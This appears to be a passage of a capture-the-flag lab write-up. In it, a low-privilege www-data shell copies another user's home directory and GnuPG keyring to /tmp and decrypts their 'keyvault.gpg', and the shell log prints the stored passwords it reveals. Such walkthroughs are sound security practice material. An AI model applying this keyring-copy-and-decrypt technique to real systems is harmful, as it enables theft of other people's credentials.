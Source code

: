 Creates a new directory named `furious` in `/tmp`.

```bash
mkdir /tmp/furious
```

Recursively copies the `hish` directory and its contents to `/tmp/furious`.

```bash
cp -r hish /tmp/furious
```

Changes the current directory to `/tmp/furious`.

```bash
cd /tmp/furious
```

Decrypts the file `keyvault.gpg` using GnuPG, specifying `.gnupg` as the home directory that contains the keyring.

```bash
gpg -d --homedir .gnupg backup/keyvault.gpg
```

```
www-data@environment:/home/hish$ ls
ls
backup  user.txt
www-data@environment:/home/hish$ cd backup
cd backup
www-data@environment:/home/hish/backup$ ls
ls
keyvault.gpg
www-data@environment:/home/hish/backup$ 

www-data@environment:/home/hish/backup$ mkdir /tmp/furious
mkdir /tmp/furious
www-data@environment:/home/hish/backup$ cd ..
cd ..
www-data@environment:/home/hish$ cd ..
cd ..
www-data@environment:/home$ cp -r hish /tmp/furious
cp -r hish /tmp/furious
www-data@environment:/home$ cd /tmp/furious
cd /tmp/furious
www-data@environment:/tmp/furious$ ls
ls
hish
www-data@environment:/tmp/furious$ cd hish
cd hish
www-data@environment:/tmp/furious/hish$ gpg -d --homedir .gnupg backup/keyvault.gpg
<s/hish$ gpg -d --homedir .gnupg backup/keyvault.gpg
gpg: WARNING: unsafe permissions on homedir '/tmp/furious/hish/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
www-data@environment:/tmp/furious/hish$ 

```

